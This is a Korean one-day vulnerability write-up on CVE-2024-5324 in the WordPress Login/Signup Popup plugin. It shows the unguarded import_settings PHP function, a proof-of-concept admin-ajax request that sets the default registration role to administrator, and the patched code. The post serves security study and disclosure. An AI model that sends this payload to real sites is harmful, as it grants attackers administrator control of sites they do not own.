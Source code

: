 ```yaml
---
title: "[CVE-2024-5324] 취약점 분석 보고서"
description: "CVE-2024-5324 WordPress의 Login/Signup Popup 플러그인에서  'import_settings' 함수에 대한 권한 확인 누락"
author: jh117jh
date: 2024-12-26 23:30:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, CVE-2024-5324]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## 1. **CVE-2024-5324이란?**

**CVE ID:** CVE-2024-5324  
**CVSS 심각도 점수:** 8.8  
**영향을 받는 버전:**  2.7.1~2.7.2  

CVE-2024-5324는 WordPress의 'Login/Signup Popup (Inline Form + WooCommerce)' 플러그인 버전 2.7.1부터 2.7.2까지에서 발견된 취약점이다. 이 취약점은 'import_settings' 함수에 대한 권한 확인이 누락되어 있어, 인증된 공격자가 Subscriber 이상의 권한으로 임의의 사이트 옵션을 변경할 수 있게 한다. 이를 통해 새로운 사용자 등록을 활성화하고, 신규 사용자의 기본 역할을 관리자(Admin)로 설정하는 등의 행위가 가능하다.

[CVE-2024-5324](https://nvd.nist.gov/vuln/detail/CVE-2024-5324)

## **2. 환경구축**

XAMPP 3.3.0, Wordpress 6.6.2, Login/Signup Popup 2.7.2

![image.png](/assets/posts/one-day/2024-12-26/image1.png)

Login/Signup Popup 2.7.2 버전을 설치하고

shortcode를 이용해 로그인 및 회원 가입 페이지를 작성한다.

![image.png](/assets/posts/one-day/2024-12-26/image2.png)

그 후, 회원 가입을 통해 공격에 사용할 계정을 만들어준다.

## **3. 분석**

Login/Signup 설정에 들어가면 사용자 회원 가입을 허용, 회원 가입 시 설정 권한 등

다양한 설정값들이 존재하는데 이러한 설정값들을 아래 사진과 같이 내보내거나 불러올 수 있다.

![image.png](/assets/posts/one-day/2024-12-26/image3.png)  
(설정 값 내보내기)

![image.png](/assets/posts/one-day/2024-12-26/image4.png)  
(설정 값 불러오기)

import 할 때 패킷을 잡아보면

![image.png](/assets/posts/one-day/2024-12-26/image5.png)

post형식으로 import파라미터에 설정 값이 담겨 전송된다. 

이때 설정 값을 불러오는 데 사용되는 함수가 import_settings 함수인데

class-xoo-admin-settings.php를 확인해 보면 import_settings 함수에 권한을 확인하는 기능이 없는 것을 확인할 수 있다.

```php
public function import_settings(){
		
		$settings  = $_POST['import'];
	
		$options = json_decode( html_entity_decode( stripslashes ($settings ) ), true );

		foreach ( $options as $key => $value ) {
			update_option( $key, $value );
		}
			
		die();

	}
```

이러한 권한 확인 기능이 없으면 subscriber 권한의 일반 사용자가 해당 설정을 변경할 수 있다. 

## **4. POC**

현재 설정 값은 회원 가입 불가능, 회원 가입 시 권한은 subscriber로 설정되어 있으며,

subscriber 권한을 가진 '123' 계정으로 진행을 했다.

![image.png](/assets/posts/one-day/2024-12-26/image6.png)   
![image.png](/assets/posts/one-day/2024-12-26/image7.png)

해당 계정으로 /wordpress/wp-admin/admin-ajax에 아래와 같은 파라미터를 전송해보면

```
action=xoo_admin_settings_import&xoo_ff_nonce=&slug=easy-login-woocommerce&import={"xoo-el-gl-options":{"m-en-reg":"yes","m-user-role":"administrator"}}
```

![image.png](/assets/posts/one-day/2024-12-26/image8.png)

설정 값이 변경되는 걸 확인할 수 있다.

![image.png](/assets/posts/one-day/2024-12-26/image9.png)

이러한 패킷을 보내고 회원 가입을 진행하면

![image.png](/assets/posts/one-day/2024-12-26/image10.png)

관리자 권한을 가진 계정으로 회원 가입이 진행되는 걸 확인할 수 있다.

![image.png](/assets/posts/one-day/2024-12-26/image11.png)

## **5. 패치**

2.7.3 버전부터는 nonce를 확인해 사용자를 확인한다.

```php
public function import_settings(){
	
	                // Check for nonce security     
	                if ( !wp_verify_nonce( $_POST['xoo_ff_nonce'], 'xoo-ff-nonce' ) ) {
	                        die('cheating');
	                }
	
	                if( !current_user_can( $this->capability ) ) return;
	               
	                $settings  = $_POST['import'];
	       
	                $options = json_decode( html_entity_decode( stripslashes ($settings ) ), true );
	
	                foreach ( $options as $key => $value ) {
                         update_option( $key, $value );
	                }
	                       
	                die();
	
	        }
```